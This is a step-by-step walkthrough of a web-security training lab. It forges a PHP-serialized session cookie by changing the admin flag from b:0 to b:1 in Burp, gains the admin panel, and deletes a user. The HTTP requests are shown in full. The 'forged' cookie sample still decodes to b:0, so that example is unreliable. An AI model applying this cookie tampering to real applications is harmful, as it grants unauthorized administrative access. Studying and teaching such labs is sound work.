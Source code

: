 # Modifying Serialized Objects

## Level
``APPRENTICE``

## Goal
This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: ``wiener:peter``

## Start
You should configure your browser and proxy to intercept messages.

Your application looks similar to the following screenshot. Keep in mind that your products can have a different arrangement and of course, it can be different products. The lab environment will be generated automatically and that is the reason why things can be different. Click at the **Account login** link in the upper right of the window.

![Picture 1](images/1-lab/1-pic.png)

In the login form put in the username ``wiener`` and the password ``peter`` and click **Log In**.

![Picture 1](images/1-lab/2-pic.png)

Go to your proxy and look for a request that is similar to the following. Your host name is different to the host name in this request.

```http
POST /login HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Connection: close
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1

username=wiener&password=peter
```

The response to this request contains the ``Set-Cookie`` header with a session cookie. This cookie is also different in your lab.

```http
HTTP/1.1 302 Found
Location: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d; Path=/; Secure; HttpOnly
Connection: close
Content-Length: 0
```

In the response mark the value of the ``Set-Cookie`` header completely and choose in the context menu **Send to Decoder**. Open the Decoder tab and click the **Decode as** button in the dropdown field choose **URL** click the **Decode as** next to the new window and choose  **Base64**. Your Decoder tab should look similar to the following screenshot.

![Picture 1](images/1-lab/3-pic.png)

Notice that the ``admin`` attribute contains ``b:0``, this is a boolean value and means ``false``. Change this to ``b:1``. Now, click the **Encode as** button and choose **base64** then click the **Encode as** button again and choose **URL**. Your Decoder should look like this.

![Picture 1](images/1-lab/4-pic.png)

Open the Proxy tab and look for a request like this.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Upgrade-Insecure-Requests: 1
```

Send this request to Burp Repeater and replace the value of the ``Cookie`` header with your created input.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=%54%7a%6f%30%4f%69%4a%56%63%32%56%79%49%6a%6f%79%4f%6e%74%7a%4f%6a%67%36%49%6e%56%7a%5a%58%4a%75%59%57%31%6c%49%6a%74%7a%4f%6a%59%36%49%6e%64%70%5a%57%35%6c%63%69%49%37%63%7a%6f%31%4f%69%4a%68%5a%47%31%70%62%69%49%37%59%6a%6f%77%4f%33%30%3d
Upgrade-Insecure-Requests: 1
```

Open your browser with the lab application and hit the refresh button. Make sure to intercept traffic in your Burp Proxy. In the request replace the value of the ``Cookie`` header with your own code and send it to the application.

![Picture 1](images/1-lab/5-pic.png)

You see in the upper right of your browser window the **Admin panel** link. Click on this link, in the resulting request you have to replace the value of the ``Cookie`` header again.

![Picture 1](images/1-lab/6-pic.png)

You can delete ``carlos`` and this finishes the lab. (If something appears like ``Admin interface only available if logged in as an administrator`` you have to replace the ``Cookie`` header value again)